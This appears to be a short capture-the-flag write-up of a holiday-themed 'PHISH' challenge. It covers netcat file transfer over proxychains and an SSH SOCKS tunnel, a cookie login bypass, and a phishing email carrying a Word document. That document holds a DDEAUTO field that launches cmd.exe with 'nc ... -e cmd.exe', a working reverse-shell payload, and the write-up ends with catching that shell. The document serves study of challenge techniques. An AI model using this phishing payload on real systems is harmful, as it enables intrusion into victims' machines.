

# Challenge 7 - PHISH
go to directory C:\
find GreatBookPage7.pdf
start nc listneres on EMI server that servers up file
C:\>nc-lvp 9999 < GreatBookPage7.pdf
proxychain from my host kali through the SSH tunnel to new listener on EMI server to download file locally
proxychains nc 10.142.0.8 9999 > GreatBookPage7.pdf
Grabbed File
Shasum
8b887dcc477fdd544ca84b874285283046adb720
C1DF4DBC96A58B48A9F235A1CA89352F865AF8B8
Shasums were wrong
opened GreatBookPage7.pdf in text editor and sat that proxychains added in a line, which through off shasum
saved and re ran shasum
c1df4dbc96a58b48a9f235a1ca89352f865af8b8
CORRECT Shasum
SSH -C -D 1080 alabaster_snowball@35.196.147.148
setup browser to proxy traffic through 127.0.0.1 1080 socks
Visit site EWS site at http://10.142.0.5/account.html
Use cookie login bypass method from Challenge 4
Login  as jessica.claus@northpolechristmastown.com
write email to alabaster.snowball@northpolechristmastown.com
create a new docx with the following forumula
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k nc 10.142.0.11 10443 -e cmd.exe"}
Attach docx to email
start listener on server you just sshed tunnelled into
nc -lvp 10443
send email
get CMDreverse shell